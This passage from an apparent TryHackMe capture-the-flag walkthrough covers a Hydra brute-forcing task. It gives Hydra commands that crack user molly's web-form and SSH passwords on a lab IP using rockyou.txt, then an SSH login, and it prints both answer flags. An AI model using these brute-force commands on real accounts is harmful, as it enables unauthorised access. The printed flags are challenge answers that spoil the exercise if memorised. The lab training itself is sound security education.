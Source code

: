 And its output is like this 


![image](https://user-images.githubusercontent.com/85181215/134768400-165f86ed-0cc8-45a0-bdcc-174283dfbac1.png)

This code is written on windows so the path are in windows format and exiftool give you some problem also so if your linux machine have exiftool
install so use `os` function to call that and modify the code accordingly

## Task 22 [Day 17] Hydra-ha-ha-haa 

![image](https://user-images.githubusercontent.com/85181215/134759373-cbfa0d2e-7087-4313-96b9-a0abd8a45dda.png)


You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!

Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found here.

Supporting materials can be found here.

This machine will take between 3-4 minutes to boot.

**Answer the questions below**

Q1: Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH).
**Hint: If you've tried more than 30 passwords from RockYou.txt, you are doing something wrong!**

A:  THM{2673a7dd116de68e85c48ec0b1f2612e}
**Solution**
Use the following hydra command to get the login password for `molly` user 
```hydra 
$ hydra -l "molly" -P /usr/share/wordlists/rockyou.txt 10.10.210.167 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V -I
```
When you got the credential login to web and got the flag there

Q2: Use Hydra to bruteforce molly's SSH password. What is flag 2?

A:THM{c8eeb0468febbadea859baeb33b2541b}

**Solution**
Use the following hydra command to bruteforce `molly` user ssh password
```
$ hydra -l "molly" -P /usr/share/wordlists/rockyou.txt 10.10.210.167 -t 4 ssh
```
When you got the credentials login to ssh using the following command 
```ssh
$ ssh molly@10.10.210.167
```
When successfully login to ssh see the flag in molly home directory using the command `cat flag2.txt`

## Task 23  [Day 18] ELF JS
